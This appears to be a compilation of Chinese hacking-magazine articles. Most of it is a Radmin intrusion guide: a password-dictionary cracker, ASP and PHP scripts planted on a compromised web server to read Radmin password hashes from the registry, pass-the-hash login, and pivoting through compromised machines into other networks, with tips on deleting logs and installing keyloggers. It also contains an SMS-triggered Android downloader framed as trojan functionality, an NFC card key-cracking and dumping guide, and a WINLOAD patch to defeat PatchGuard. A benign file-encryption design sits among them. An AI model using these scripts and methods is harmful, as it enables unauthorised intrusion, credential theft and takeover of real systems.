该暴力破解软件一共有四个文件，即 password.txt、radmin.exe、radmin.info、radmincracker.exe。其中 password.txt 为密码字典文件，该文件可以手动进行修改，每一个密码为单独一行，使用记事本打开后如图 24 所示，其中包含 5 个密码，第一个密码为空，后面的密码依次是“radmin”“password”“letmein”和“admin”，该密码文件即 radmin 服务端的连接密码。Radmin.exe 是服务端管理器，也即客户端；通过 radmin.exe 连接 radmin 服务端。Radmin.info 是查看系统信息的，具体功能笔者也不太清楚，radmincracker.exe 是 radmin 密码破解程序。


图 24 Radmin 破解程序密码字典

**注意：**以上文件中 radmin.exe 和 password.txt 文件名称不能更改，否则将导致程序无法运行。

### 2. Radmin 口令破解命令格式

使用 UltraEdit 软件直接编辑 radmincracker.exe，用二进制格式进行查看，如图 25 所示，找到了 radmincracker.exe 的具体命令格式为：`radmincracker.exe ip ip ip`。在 DOS 提示符下输入 `radmincracker.exe` 运行也会提示其命令格式。


图 25 获取 Radmin 破解程序的具体运行命令

### 3. 测试环境的搭建

分别在虚拟机中建立两个 Windows XP 操作系统（A 系统和 B 系统），在 A 系统中安装 Radmin 2.2 版本，在 B 系统中将 radmin 口令破解软件放到 Tools 文件夹中。其中 A 系统的 IP 地址为 192.168.209.130。

## 实际测试

### （1）环境测试

在测试环境搭建成功后，还需要进行网络连通性测试，即使用 ping 命令对 A 系统进行网络连通测试。将 `sfind.exe` 复制到 B 系统中，使用 `sfind -p 192.168.209.130` 查看 A 系统中对外端口开放情况。如果看到 4899 端口开放，则可继续；如未开放，可能与防火墙或 Radmin 服务设置有关。可关闭 Windows 防火墙或在例外中添加 4899 端口，并重启 A 系统或使用 `net start r_server` 启动 Radmin 服务，同时设置连接密码为 `password`。

### （2）口令破解测试

在 DOS 提示符下输入 `radmincracker 192.168.209.130`，回车后程序开始破解，如图 26 所示；会显示 IP 地址和密码列表，匹配成功后给出结果。本例显示 `192.168.209.130: password successfully opened`。破解成功后程序会自动 telnet 被破解的 radmin 服务端。


图 26 口令破解测试

### （3）破解后续处理以及技巧

Radmincracker 破解程序在破解 radmin 密码成功后，会自动在当前文件夹下生成一个 txt 文件，文件以被破解的 IP 地址命名，如图 27 所示。在该文件中显示格式为“IP 地址:密码”。


图 27 破解结果文件

- Radmincracker 破解程序在破解时占用系统资源较多，因此密码字典不宜太大，每次使用小于 100kB 为佳。
- 破解时最好在服务器上运行破解程序。
- 在肉鸡上可使用第三方程序隐藏当前窗口，间隔一段时间查看破解结果文件即可。
- 破解 IP 地址不宜设置太多；Radmin 破解成功后会自动 telnet 连接服务端，连接过多会影响网络，需要后续处理。

总的来说这款软件还是不错的，至少多了一条攻击方法。破解难度取决于密码字典。感兴趣的朋友可以到安天 365 论坛（http://www.antian365.com）进行下载。

## Radmin 在渗透中的应用

本部分是整个专题最为重要的部分，前面是一些必须掌握的基本组成部分。Radmin 在渗透中的妙用主要在提权。在获得 Radmin 的 Hash 后，无须破解 Radmin 的密码即可正常使用 Radmin。

### 1. 利用 Radmin 提权

很多 Web 服务器为了管理方便都会安装一些远程控制软件来进行系统和应用程序的维护。当我们通过 SQL 注入等方式获得 Webshell 后，一旦发现系统安装了 Radmin 软件，那么一个比较快捷的方法就是获取 Radmin 的 Hash 值以及端口等信息，然后通过 Radmin_hash 客户端连接工具直接连接，从而达到提权的目的。

在 Radmin 2.X 中，其参数设置信息均保存在注册表 `HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters` 键值下，如图 28 所示；而 Parameter 则是默认密码保存值，Port 则是默认端口保存值。而在 Radmin 3.X 版本中更改了加密方式，分为 NT 用户安全和 Radmin 安全模式，具体体现在键值上，如下所示。

- Radmin 安全密码信息保存位置：  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Radmin\v3.0\Server\Parameters\RadminSecurity\1`
- NT 用户安全信息保存位置：  
  `HKEY_LOCAL_MACHINE\SOFTWARE\Radmin\v3.0\Server\Parameters\NtUsers`

在 Radmin 3.x 中其密码信息保存在名称为“1”的键值中。由于 1 是数字，因此通过脚本来读取该值目前还没有找到成功的方法。下面介绍如何读取 Radmin 2.x 中的参数信息。


图 28 Radmin 2.x 版本参数注册表中保存位置

### 2. 获取 Radmin 的有关信息

#### （1）通过 Radmin.asp 来获取

将以下代码保存为 `radmin.asp`，将其放在网站目录：

```asp
<%
Set WSH = Server.CreateObject("WSCRIPT.SHELL")
RadminPath="HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters\"
Parameter="Parameter"
Port="Port"
path="LogFilePath"
ParameterArray=WSH.REGREAD(RadminPath & Parameter)
Response.write "The Result of Radmin Hash"
Response.write "</br>"
Response.write ""
Response.write Parameter&":"
If IsArray(ParameterArray) Then
  For i = 0 To UBound(ParameterArray)
    If Len(hex(ParameterArray(i)))=1 Then
      strObj = strObj & "0" & CStr(Hex(ParameterArray(i)))
    Else
      strObj = strObj & Hex(ParameterArray(i))
    End If
  Next
  response.write Lcase(strobj)
  Response.write "</br>"
Else
  response.write "Error! Can't Read!"
End If
Response.write ""
IF Port<>"" then
  PortArray=WSH.REGREAD(RadminPath & Port)
  If IsArray(PortArray) Then
    Response.write Port & ":"
    Response.write hextointer(CStr(Hex(PortArray(1)))&CStr(Hex(PortArray(0))))
    Response.write "<br>"
  Else
    Response.write "Error! Can't Read!"
  End If
else
  Response.write "Port is defualt 4899!"
end if
Rpath=WSH.REGREAD(RadminPath & path )
Response.write"日志文件存储地址位："
Response.write Rpath
Response.write "<br>"
Function hextointer(strin)
Dim i, j, k, result
result = 0
For i = 1 To Len(strin)
If Mid(strin, i, 1) <= "9" And Mid(strin, i, 1) >= "0" Then
    j = CInt(Mid(strin, i, 1))
End If
For k = 1 To Len(strin) - i
    j = j * 16
Next
result = result + j
Next
hextointer = result
End Function
%>
```

直接访问即可读取其 Radmin 的有关信息，如图 29 所示，获取了如下信息：

- radmin hash is: `2ba5e187e2589be6f80da046aa7e3c`（这个值就是 radmin 的密码专用 hash 值）
- radmin port is: `48999`（Radmin 默认端口为 4899，本例中修改为 48999）
- radmin log path is: `c:\logfile.txt`（日志文件保存位置和文件名，访问后可删除以免留下痕迹）


图 29 获取 Radmin 的有关信息

#### （2）通过 Radmin.php 来获取

在有些服务器上面可能使用的是 PHP 脚本语言，那么 `radmin.asp` 就无法读取。要想读取 Radmin 的信息很简单，将以下代码保存为 `radmin.php` 即可。方法跟 `radmin.asp` 类似，效果如图 30 所示。

```php
<?php
$shell = new COM("WScript.Shell") or die("This thing requires Windows Scripting Host");
$rootkey = "HKEY_LOCAL_MACHINE\\SYSTEM\\RAdmin\\v2.0\\Server\\Parameters\\";
$Parameter = "Parameter";
$Port = "Port";
$logpath = "LogFilePath";
$myparam = $shell->RegRead($rootkey.$Parameter);
$myport = $shell->RegRead($rootkey.$Port);
$path = $shell->RegRead($rootkey.$logpath);
echo "radmin hash is:";
foreach($myparam as $a){
    echo dechex($a);
}
echo "<br>";
echo "radmin port is :".hexdec(dechex($myport[1]).dechex($myport[0]))."<br>";
echo "radmin log path is:$path<br>";
echo "please clean the log";
?>
```


图 30 通过 Radmin.php 来获取 Radmin 参数值

### 3. 注意事项

- 在使用 Radmin.asp 或者 Radmin.php 读取服务器中的 Radmin 参数信息时，有可能由于权限问题而无法读取。
- Radmin.asp 以及 Radmin.php 只能读取 Radmin 服务端 3.0 以下版本。对于 Radmin 3.0 以上版本，注册表、安装程序位置及名称均有调整。Radmin 3.x 中加密方式已变化，在 `NtUsers` 键值中的 `1` 保存值为 80 位，而在 Radmin Security 中其数值数据位数更多，可达 1170 位。


图 31 Radmin 3.x 参数在注册表中的位置

### （3）如果初始安装 Radmin 未对参数进行设置，则读取的参数信息相对较少。

### 4. 使用 Radmin-hash 连接工具

使用 Radmin-hash 工具相对就简单多了，将上面获取的 Radmin 的 32 位 Hash 值、IP 地址和端口记下，打开 Radmin-hash，新建立一个 IP 地址连接，然后跟使用正常的 Radmin 客户端管理器一样，如图 32 所示；在输入密码中输入获取的 32 位 Hash 值，密码验证通过后即可使用 Telnet、屏幕监控以及文件传输，如图 33 所示。


### 5. 利用 Radmin 口令进行内网渗透控制案例

Radmin 作为一款强大和好用的远程控制软件，因此深受管理员喜爱，但是很多管理员都有一个习惯，就是将 Radmin 的口令设置为同一个口令。通过键盘记录以及 Radmin 客户端可以很容易和方便地实施内网渗透。

#### （1）查看肉鸡上的 Radmin 客户端

在 Radmin 客户端中如果需要连接服务端则必须要建立一个连接，也就是需要一个 IP 地址和端口号，否则就不能使用。当建立一个连接以后，就会在 Radmin 客户端中保留以该 IP 或者指定显示名称的记录。单击“开始”-“程序”-“Remote Administrator v2.2”-“Radmin Viewer”打开 Radmin 客户端，如果用户曾经使用过 Radmin 客户端来管理 Radmin 服务端，则会在 Radmin 客户端中显示，如图 34 所示。


#### （2）通过 Radmin 客户端建立连接

在 Radmin 客户端中新建一个连接，其 IP 选择上图中的记录地址，端口选择其相应的端口，例如选择 IP 地址为“192.168.0.15”，根据肉鸡上的 Radmin 客户端的记录，该地址对应的端口（Port）为“5003”；然后选择“Connect through host”，选择该肉鸡 Radmin 地址，如图 35 所示。该 IP 地址（肉鸡的 IP 地址）将作为内外网连接的桥梁，如果内网的计算机安装了 Radmin 服务端，只要拥有该内网计算机的 Radmin 控制口令即可实施全面控制。


#### （3）尝试建立连接

将肉鸡中的 Radmin 客户端中的内网 Radmin 服务端计算机依次按步骤 2 中方法创建连接。创建完毕后，依次选择内网计算机进行连接尝试。在本案例中选择 IP 地址为“192.168.0.1”的计算机，在 Radmin 客户端中选择“屏幕查看”功能，双击进行连接，输入肉鸡的 Radmin 控制口令进行尝试连接。在进行尝试连接时，如果内网计算机安装了 Radmin 服务端，则需要输入两次密码，一次为肉鸡的 Radmin 口令，一次是内网计算机的 Radmin 口令，口令正确后，则可以执行相应的操作。在本案例中可以看到该内网计算机为监控计算机，如图 36 所示。


图36 连接内网计算机

#### （4）通过 Telnet 查看 IP 地址

在本案例中，肉鸡有外网 IP 也有内网 IP 地址，其内网 IP 地址为“192.168.0.105”，当通过肉鸡来连接内网的计算机时，在内网计算机上显示的网络连接为内网的 IP 地址。“192.168.0.102”为内网中一台计算机，该计算机上的 Radmin 服务端开放的端口为“5000”，在本地 Radmin 客户端中选择“Telnet”功能，然后双击“192.168.0.102”，输入密码后，进入 Telnet 管理，输入“netstat -an”查看网络连接，如图 37 所示，该网络连接中显示的 Radmin 连接为内网连接。

#### （5）再次实施内网渗透攻击

通过上面的步骤和获取的信息，我们测试成功了一台内网计算机，在该内网计算机上安装 arp 挂马软件或者 sniffer 软件，可以获取系统中的一些密码，或者直接通过 IE 以及邮件密码获取软件可以很方便地获取其相应的密码来实施再次的攻击。

### 6. 小结

本案例通过查看已经控制的肉鸡的 Radmin 客户端，来对其内网的 Radmin 服务端进行口令尝试攻击，使用肉鸡的 Radmin 口令来登录内网计算机上的 Radmin 服务端，一旦口令正确则可以完全控制该内网计算机，该方法简单而行之有效。


图37 查看网络连接

## 利用 Radmin 口令进行外网渗透控制案例

上面介绍了如何利用 Radmin 口令来进行内网渗透，在实际中还可以利用 Radmin 口令来进行外网渗透，其原理类似，下面通过实际的操作来进行讲解。

### 1. 查看肉鸡上的 Radmin 客户端

单击“开始”-“程序”-“Remote Administrator v2.2”-“Radmin Viewer”打开 Radmin 客户端，在其中可以看到一个“187”的标签，选择“187”标签可以在 Radmin 客户端底部看到其对应的 IP 地址“*.*.*.182”，端口为“2100”，控制模式为“Full Control”，如图 38 所示。


图38 Radmin 客户端中的服务端计算机

### 2. 通过 Radmin 客户端建立连接并查看远端屏幕

在本地 Radmin 客户端中新建一个连接，其 IP 选择上图中的记录地址 IP 地址“*.*.*.182”，端口为“2100”，Radmin 客户端中选择“屏幕监视”功能，输入得到的密码进行尝试，密码验证成功后，进入屏幕监视状态。可以实时查看远端计算机的屏幕，如图 39 所示。


图39 查看肉鸡屏幕

### 3. 查看 IP 地址

在本地 Radmin 客户端中选中刚才的 IP 地址，选择“Telnet”功能，进行 Telnet 操作模式，在 Telnet 中输入“ipconfig /all”命令查看该计算机的网络配置情况，如图 40 所示，该计算机为独立外网 IP 地址。


图40 查看计算机网络情况

### 技巧

在 Radmin 客户端连接状态下，如果是使用 Radmin 3.0 及其以上版本，可以直接通过工具条上的小图标来进行功能的切换，不需要每次输入 Radmin 控制密码。

### 4. 通过 Telnet 查看外网情况

在本案例中，该计算机 IP 地址为外网 IP 地址，可以通过“net view”命令来查看附近网络的情况，如图 41 所示，该网络附近还有许多其他计算机。

### 5. 再次实施外网渗透攻击

再次利用前面的步骤和获取的信息，我们通过依次查看网络中开放“2100”端口的计算机，将已经获取的 Radmin 口令来测试该网络中的外网计算机，成功控制了三台计算机，其中一台为服务器，疑似交易服务器，如图 42 所示。


图41 查看外网情况


图42 再次实施内网渗透攻击

## 经验说明

在写本案例结束时，偶然看见以前的一个抓图，里面有 18 台计算机，均是通过 Radmin 来进行管理，如图 43 所示。如果在该计算机上安装键盘记录或者安装诸如 cain 等嗅探软件，可以很容易地获取 Radmin 等软件的账号和密码，管理员一旦形成习惯，就会坚持这种习惯，因此在网络攻防中对细节的收集和利用往往会产生一些意想不到的收获！

## 案例小结

本案例通过查看已经控制的肉鸡的 Radmin 客户端，来获取其管理员管理其他计算机所用的 Radmin 服务端 IP 地址和端口，并通过获取的 Radmin 口令来对管理员管理的 Radmin 服务端进行口令尝试攻击，一般口令正确率在 50% 左右，即使不正确还可以通过键盘记录等手段来嗅探或者记录管理员在计算机上的操作，从而获取更多信息，获取更多的口令和控制更多的外网计算机。本案例是上一个案例的延续，方法简单，获取的肉鸡质量较高。


> 图 43 通过 Radmin 来管理网络

前置知识：无

关键词：Android，系统，下载者

# Android 操作系统安全研究系列——文件下载


文／鬼谷先生

在计算机木马中，downloader 是比较常见的功能。在 Android 系统中这个功能也是比较常见的，如恶意软件的远程升级、下载其他捆绑插件等等。这个功能看上去似乎与安全不相关，不能对手机造成什么严重后果，但是恶意程序在实现数据交互的时候，下载、上传都是很常用的功能。下面我们就从代码角度对该功能进行分析。

我们还是从上期的代码进行修改，主要实现功能是收到短信后自动从指定 url 下载文件，并保存在 sd 卡里。

首先是创建广播接收者，来监听广播接收状态。方法就不多说，前几期有详细步骤。

```java
public class down extends BroadcastReceiver {
```

下面定义几个后面需要用到的变量，分别是要下载文件的 url 地址以及文件名等。

private String strURL="http://www.baidu.com/img/baidu_sylogo1.gif";

```java
private String fileEx="";
private String fileNa="";
```

下面就是主要功能代码了。首先再获取文件名。

```java
fileEx=strURL.substring(strURL.lastIndexOf(".")+1,strURL.length()).toLowerCase();
```

```java
fileNa = strURL.substring(strURL.lastIndexOf("/")+1,
strURL.lastIndexOf("."));
```

接下来是当接收到短信时，执行下载函数 getDataSource。

```java
if
(intent.getAction().equals("android.provider.Telephony.SMS_RECEIVED"))
{
    try
    {
        getDataSource(strURL);
    }
    catch(Exception e)
    {
        e.printStackTrace();
    }
}
```

下面是下载并保存文件的主体代码了。先创建一个输入流和文件，然后将文件流输出到文件，再然后循环读取并写入文件。

```java
private void getDataSource(String strPath) throws Exception
{
    URL myURL = new URL(strPath);
    URLConnection conn = myURL.openConnection();
    conn.connect();
    InputStream is = conn.getInputStream();
    File myTempFile = File.createTempFile(fileNa, "."+fileEx);
    FileOutputStream fos = new FileOutputStream(myTempFile);
    byte buf[] = new byte[128];
    do
    {
        int numread = is.read(buf);
        if (numread <= 0)
            break;
        fos.write(buf, 0, numread);
    } while (true);
    is.close();
}
```

```java
{
    break;
}
fos.write(buf, 0, numread);
} while (true);
is.close();
}
```

下载的功能基本就实现了。主要用到的权限如下，记得要在编译前声明相应的权限。

```xml
<uses-permission android:name="android.permission.RECEIVE_SMS" />
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.INTERNET" />
```

这三个权限可以从字面上理解，接收短信权限、写 sd 卡权限、访问互联网权限。这里要提醒大家，Eclipse 的语法检测不包括 androidmanifest.xml 文件，因此在写权限声明以及广播接收者声明等时要格外注意。很多情况下都是程序代码显示没错，可编译测试就是不通过，这时就要好好看一下 androidmanifest.xml 文件了。

文件下载是其他功能的基础，比如我们可以实现发送短信指令操控远程手机下载并打开某图片或者某音视频文件实现恶作剧功能等等，大家可以发挥想象哦。详细代码可参考附件。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：手机，动态口令，系统

# 手机动态口令文件保护系统

文 郭达成 张帆 陈宇磊 李卓伟

本文介绍一种新式的文件保护系统，其主要功能是保护本地 PC 上及在网络传输中的文件，该系统结合 Android 操作系统手机平台，利用动态口令技术实现对 PC 上个人文件的保护。用户可以通过手机对 PC 上的文件进行加密，由于使用了 3DES 及 MD5 进行加密，所以不用担心被其他人窃取，同时还不必为了忘记密码而烦恼。因为我们只需要指定手机即可进行文件加密，需要解密的时候，使用手机得到动态口令即可。动态口令最大的优点在于，用户每次使用的口令都不相同，使得不法分子无法仿冒合法用户的身份。


动态口令无需记忆，使用方便，还可以开发成实用信息安全产品。它的基本原理如图 1 所示。


图 1

程序主要包括手机部分或 PC 部分，PC 部分为文件处理模块，手机部分主要为动态口令生成模块。

文件处理模块：文件处理模块的功能是对 PC 上指定文件进行加解密。分为加密、解密两部分。加密过程：根据用户指定的手机信息和时间信息对需要加密的文件进行加密。解密过程：对于加密过的文件必须在一定时间内，使用指定手机生成的动态口令对文件解密。如果超过时间或者密码输入错误次数过多，则文件会毁坏。主要有加密模块和解密模块两部分。

手机动态口令生成模块：动态口令生成模块的功能是根据当前时间信息、本手机 IMEI 信息及随机安全数，按约定的规则生成一串字符串，并经过 MD5 处理后，变成动态口令。主要有 MD5 加密模块、设备识别号获取模块、时间获取模块三个部分。

## 源加密文件结构设计

被加密的文件头部具有如图 2 所示的结构：


图 2

每个部分的字节数如表 1 所示。

## 表1 加密文件头结构

| 字节偏移 | 内容 |
|---|---|
| 0-7 | 文件标识头 |
| 8-15 | 用 3DES 加密的密钥 |
| 16-19 | 允许的密码有效时间间隔，整型数 |
| 20-35 | IMEI 运行 MD5 散列后的值 |

在程序中定义为如下形式：

```csharp
public class FileInfo
{
    public int Interval;   // 时间间隔
    public string IMEI;
    public byte[] btKey;   // 加密密钥的字节数组
    public byte[] btFile;  // 文件的字节数组
}
```

```csharp
BinaryWriter bw = new BinaryWriter(fs);
// 写入头部的各种信息
bw.Write("toowhite");
bw.Write(btKey);
Console.WriteLine("Key: " + BitConverter.ToString(btKey));
bw.Write(interval);
Console.WriteLine("Interval: " + interval.ToString());
byte[] btImei = GetAllMd5Bytes(imei);
bw.Write(btImei);
Console.WriteLine("IMEI: " + BytesToString(btImei));

// 创建加密流对象，写入文件数据
using (CryptoStream cs = new CryptoStream(fs, trides.CreateEncryptor(btKey, btIv), CryptoStreamMode.Write))
{
    cs.Write(btFile, 0, btFile.Length);
    cs.FlushFinalBlock();
}
return true;
```

## PC端实现

PC 端的核心是一个命令行程序，通过参数的方式指定操作对象及方式。如加密时，用以下命令调用加密功能。

- Crypter e 源文件名 目标文件名 IMEI 时间间隔
- Crypter d 源文件名 目标文件名 解密密钥

在此程序的基础上，还可以编写图形界面，通过其来调用功能，改善用户体验。

该程序主要分为：加密模块和解密模块两部分。

## 加密模块

加密过程相对比较简单。

首先，我们在程序中的手机设备信息用于加密的手机设备信息，比如手机号、手机 IMEI 号，在本软件安装时，或者使用串口以添加进入程序配置文件中保存。所以这一步只是提取出需要的设备信息即可。

其次，用户设置的允许获取密码到使用密码解密的时间间隔，时间单位为分钟。

最后，将需要保护的文件进行 3DES 处理后的文件与前两步的信息绑定为之前所见到的文件格式，完成加密过程。

```csharp
public static bool EncryptFile(string sourceFile, string destFile, int interval, string imei)
{
    if (!File.Exists(sourceFile)) throw new Exception("File not found.");
    byte[] btKey = Guid.NewGuid().ToByteArray();
    byte[] btIv = btKey;
    byte[] btFile = File.ReadAllBytes(sourceFile);

    // 创建加密服务对象
    TripleDESCryptoServiceProvider trides = new TripleDESCryptoServiceProvider();
    trides.KeySize = 128;

    using (FileStream fs = new FileStream(destFile, FileMode.Create, FileAccess.Write))
    {
        // ...
    }
}
```

## 解密模块

先读取文件，分离出文件头部信息。

然后，根据与手机端密钥生成算法相同的算法生成动态口令，由于是 MD5 离散过，同时又允许有时间间隔，所以我们以分钟为时间单位，时间间隔为 N 分钟，则生成 N 个 MD5 序列。

当用户输入动态口令后，与生成的 N 个序列依次进行比较，如果有相同的，则解密成功，否则解密失败，失败次数加 1。若解密次数超过限制，则删除文件。

```csharp
public static bool DecryptFile(string sourceFile, string destFile, string key)
{
    if (!File.Exists(sourceFile)) throw new Exception("File not found.");
    FileInfo fileInfo = GetFileInfo(sourceFile);
    ShowInfo(fileInfo);
    TripleDESCryptoServiceProvider trides = new TripleDESCryptoServiceProvider();

    // 验证通过才解密
    if (VerifyKey(key, fileInfo.Interval, fileInfo.IMEI))
    {
        using (FileStream defs = new FileStream(destFile, FileMode.Create))
        using (CryptoStream cs = new CryptoStream(defs, trides.CreateDecryptor(fileInfo.btKey, fileInfo.btKey), CryptoStreamMode.Write))
        {
            cs.Write(fileInfo.btFile, 0, fileInfo.btFile.Length);
            cs.FlushFinalBlock();
        }
    }
}
```

```java
else {
    throw new Exception("Key verification failed.");
}
return true;

// 动态口令验证过程部分代码如下：
static bool VerifyKey(string key, int interval, string imei) {
    DateTime now = GetTimeOnline(); // 取得现在时间
    DateTime earliest = now.AddMinutes(-1 * interval); // 最早的允许时间
    DateTime latest = now.AddMinutes(interval); // 最晚的允许时间
    DateTime tt = earliest;
    string t2;

    // 有一个时间匹配就可以了
    while (tt != latest) {
        if ((t2 = GetMD5(imei + tt.ToString("yyyyMMddHHmm"))) == key) {
            return true;
        }
        tt = tt.AddMinutes(1);
    }
    return false;
}
```

## 手机客户端

本客户端主要功能是实现获取解密时候的动态口令。主要包括 MD5 加密模块、设备识别号获取模块和时间获取模块 3 个模块。

### MD5 加密模块

调用利用 java.security 包中的 MessageDigest 类进行 MD5 加密，对外提供 getMD5(string) 方法。

```java
public class MD5 {
    public final static String getMD5(String plainText) {
    }
}
```

关键代码：

```java
MessageDigest md = MessageDigest.getInstance("MD5");
md.update(plainText.getBytes());
byte b[] = md.digest();
int i;
for (int offset = 0; offset < b.length; offset++) {
    i = b[offset];
    if (i < 0) i += 256;
    if (i < 16) {
        buf.append("0");
    }
    buf.append(Integer.toHexString(i));
}
md5Str = buf.toString();
return md5Str;
```

### 设备识别号获取模块

在 Android 系统中，设备识别号（IMEI 和 cdma 中的 MEID 号）等各种手机信息由 TelephonyManager 统一管理，调用 getDeviceId 方法直接获取设备识别号。

```java
public class GetPhoneID {
    private Context activity;
    TelephonyManager tm = (TelephonyManager) activity
        .getSystemService(Context.TELEPHONY_SERVICE);
    public String imei = tm.getDeviceId();
}
```

### 时间获取模块

时间同步在本系统中是一个极其重要的问题。若采用本地系统时间，本系统可通过更改系统时间轻松破解。故本系统手机客户端与 PC 端时间比较在误差允许范围内保持同步。

NTP 协议的全称为网络时间协议（Network Time Protocol）。它的目的是在国际互联网上传递统一、标准的时间。具体的实现方案是在网络上指定若干时钟源网站，为用户提供授时服务，并且这些网站间应该能够相互比对，提高准确度。

NTP 协议是 OSI 参考模型的高层协议，符合 UDP 传输协议格式，拥有专用端口 123。

本方法利用 NTP 网络时间协议，连接国家授时中心服务器（IP：210.72.145.44）获取网络标准时间。

```java
public class GetStandardTime {
    public static String getTime() {
        ipv4Addr = InetAddress.getByName("210.72.145.44");
        int serviceStatus = -1;
        DatagramSocket socket = null;
        long responseTime = -1;
        socket = new DatagramSocket();
        socket.setSoTimeout(timeout);
        for (int attempts = 0; attempts <= retry && serviceStatus != 1; attempts++) {
            byte[] data = new NtpMessage().toByteArray();
            DatagramPacket outgoing = new DatagramPacket(data, data.length, ipv4Addr, port);
            long sentTime = System.currentTimeMillis();
            socket.send(outgoing);
            DatagramPacket incoming = new DatagramPacket(data, data.length);
            socket.receive(incoming);
            responseTime = System.currentTimeMillis() - sentTime;
            NtpMessage msg = new NtpMessage(incoming.getData());
            time = msg.getTime();
            serviceStatus = 1;
        }
        return time;
    }
}
```

## 总结

- 通过上述方法我们解决了如下几个令人头疼的问题。
- 本程序采用动态口令，生成完全随机，同时经过 MD5，避免了用户为了便于记忆，选择生日、电话号码等作为密码，被不法分子推测出来。
- 密码有使用次数验证功能，解密失败超过一定次数则文件毁坏，同时用户使用手机生成密码后，在一个较小时间间隔内才有效，使密码更加安全可靠，防止了一个密码多次使用，容易被不法分子采用截取/重放的方式，对经过简单加密后传输的认证信息进行分析，推算出用户的密码，造成无意泄露的可能。
- 由于密码跟用户信息无关，只有在使用前使用指定手机才能获得密码，避免了不法分子常常利用窥探、诱骗等手段获取用户密码的行为。

同时，程序还有以下几个地方有待改进。密码安全主要依赖文件头的保密性，作者打算使用 RSA 加密后，将私钥保存在手机上，在解密时验证，提高了保密性。文件保护程序还只是防止文件被不应知悉的人窃取，不能保证不被篡改，故此功能还需改进。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：硬件卡  
关键词：NFCTools，IC


# Hardware Hack 之 NFC 系列 IC 卡数据读取

图/文  鬼谷先生

早就听说国外的黑客大牛们正在如火如荼地研究 NFC 安全了，由于比较懒就一直没深入学习，最近加了个 NFC 安全的 QQ 群 195590931，看到里面有出售不少 NFC 方面的装备，捡了一样比较便宜的，买了个 ACR122U 的 NFC 读/写卡器，于是闲下来就折腾了一下。网上基本都是 linux 下的工具和方法，什么 nfctools 啊、mfoc 啊等等，据说安装起来还是比较复杂的。对于我这样的 linux 盲来说是件比较痛苦的事情。幸好 QQ 群里有提供 Windows 下的工具集，下面就简单介绍我使用的几个工具和方法吧。

先 show 下我的 ACR122U 玉照，如图 1 所示。

找到了 Windows 下的工具集后，使用起来就比较简单了，和其他 USB 外设一样，首先是安装驱动，驱动包可自动识别下载，当然你没联网的话也可以手动下载、安装 ACR122U 的官方驱动。一切折腾完毕后你就会发现，插上 USB 线后，ACR122U 的指示灯是红色的，当有卡片靠近时 ACR122U 指示灯是绿色的，这就说明 ACR122U 可以正常工作了。

下面主要说说我这个 Windows 工具集的几款工具的简单功能，由于工具比较多，我英文又不好，就把我折腾明白的和大家聊聊。

## 1. NFCTools 工具包

这个工具包里有如下几个程序：  
常用的是 nfc-list.exe 和 nfc-poll.exe。其他的还在摸索使用，希望感兴趣的朋友一起研究研究。


图 1

分别运行 nfc-list.exe 和 nfc-poll.exe 试试，如图 2 和图 3 所示。


图 2


图 3

可以看到成功读取到卡的一些信息：

```
卡类型：ISO14443A
ATQA (SENS_RES): 00 04
UID (NFCID1): f9 XX XX XX
SAK (SEL_RES): 08
```

得到的这些信息里面常用来做验证的一般是 UID，比如门禁卡中就有用 UID 作为鉴别信息的。在获得了 UID 信息后即可使用模拟设备（proxmark3 等）模拟一个同样 UID 的卡。

除了 UID 外一般 IC 卡里还会有一些其他的信息，但是这些信息一般是有读/写密码的，也就是说在不知道读/写密码的情况下是没办法获得这些数据的，还好我们有工具可以破解一般常用的默认密码。下面介绍两款 Windows 下好用的工具：mfocGUI_v29 和 ovChip_Browser_v0.1。这两款工具都可破解默认读/写密码，并将卡内数据 dump 出来。

首先看看 mfocGUI_v29，插上 ACR122U 读卡器，打开 mfocGUI_v29，看到全是英文界面，如图 4 所示。不过不用担心，基本保持默认设置就可以。点击 “Read data” 进行读取，如果成功会在程序目录下生成一个 dump 文件，打开可以看到数据内容，如图 5 所示。

可以看到 dump 出来的数据开头就是卡的 UID，后面的信息代表一些数据，这些数据具体指什么则需要根据实际系统进行分析了。

有：上次充值时间、最近 10 次的消费时间，以及金额、卡余额、校验值等等。这就需要进行数据分析了。


图 4


图 5

下面看看 ovChip_Browser_v0.1 的表现如何。界面要简洁很多，直接点击 “start” 按钮开始破解读取，如图 6 所示。如果读取成功在程序目录会生成 dump 文件，如图 7 所示。


图 6


图 7

数据和 mfocGUI_v29 读出来的基本一样，就不多说了。一般对于 IC 卡的攻击有：非法读写卡片、伪造卡片、模拟卡片、嗅探、重放攻击等等，需要的装备一般有 proxmark3、pn532、ACR122U、openpcd 等等。

前置知识：汇编  
关键词：内核补丁保护，KiInitializePatchGuard


# 一种使 PatchGuard 失效的通用方法

作者：Fyyre  译者：胡文亮

本文件提供了一种在 Vista/Win7 启动阶段绕过对关键系统文件（NTOSKRNL 为主）签名验证的方法。此文档讲述了从开始到结束的所有步骤，以达到去除内核补丁保护“PatchGuard”的预期目标而不使用任何驱动程序。我们称这是一个“容易且懒惰”的突破 PatchGuard 的方法。

我们不能仅仅修改 NTOSKRNL 而不修改 WINLOAD。Winload.exe 是 Vista 和 Windows 7 的 Windows 加载器。因此，它会进行一些对数字签名的验证以确保文件没有被修改。如果检测到 NTOSKRNL 被修改了，导致的结果是 WINLOAD 拒绝启动 Windows，而是运行“恢复模式”尝试恢复原始文件。

## 反汇编并修改 WINLOAD.EXE

从 OslpMain 开始，然后装载系统注册表，发生了一个到 OslInitializeCodeIntegrity 的调用：

```asm
.text:00000000004016C3                 call    OslpLoadSystemHive
.text:00000000004016C8                 cmp     eax, ebx
.text:00000000004016CA                 mov     edi, eax
.text:00000000004016CC                 jl      loc_401A08
.text:00000000004016D2                 mov     ecx, ebp
.text:00000000004016D4                 call    OslInitializeCodeIntegrity
.text:00000000004057E8 OslInitializeCodeIntegrity proc near
【以上是原始代码】
```

我们要在此替换四个字节：

```asm
48 8B C4 53
.text:00000000004057E8                 mov     rax, rsp
```

```asm
.text:00000000004057EB                 push    rbx
.text:00000000004057EC                 push    rbp
```

用：0B0H、001H、0C3H、090H，以上四字节的汇编代码是：

```asm
mov al, 1
ret
nop
```

